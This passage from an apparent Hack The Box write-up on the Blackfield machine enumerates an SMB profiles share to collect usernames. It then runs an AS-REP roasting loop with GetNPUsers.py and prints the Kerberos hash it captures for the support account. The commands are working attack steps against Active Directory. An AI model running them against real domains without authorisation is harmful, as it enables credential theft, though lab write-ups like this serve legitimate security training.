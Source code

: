 
Each one is empty:

    
    
    smb: \> ls ZTimofeeff
      ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
    
    \ZTimofeeff
      .                                   D        0  Wed Jun  3 12:47:12 2020
      ..                                  D        0  Wed Jun  3 12:47:12 2020
    
                    7846143 blocks of size 4096. 3322639 blocks available
    

Trying to do a recursive `get` takes a while, and returns no files:

    
    
    smb: \> recurse on
    smb: \> prompt off
    smb: \> mget *
    smb: \>
    

While I can’t access any files, this is an opportunity to create a list of
usernames. I’ll mount the share on my local box (just hitting enter when
prompted for a password):

    
    
    root@kali# mount -t cifs //10.10.10.192/profiles$ /mnt
    Password for root@//10.10.10.192/profiles$: 
    

Now I’ll use `-1` in `ls` to print only the directories one per line:

    
    
    root@kali# mv users users.old; ls -1 /mnt/ > users
    

## Access as support

### AS-REP Roast

Just like in [Forest](/2020/03/21/htb-forest.html#as-rep-roasting), I can
check this list of users for any that have the `UF_DONT_REQUIRE_PREAUTH` flag
set to true. For those users, requesting a Kerberos ticket will generate a
hash that I can try to break with brute force without my having any value user
credentials on the domain.

I’ll use `GetNPUsers.py` to test each user, and since I know that a successful
response will include a hash with `krb5asrep` in it, I’ll grep for that to see
any successful results. It runs for a few minutes, but finds a result:

    
    
    root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
    $krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0
    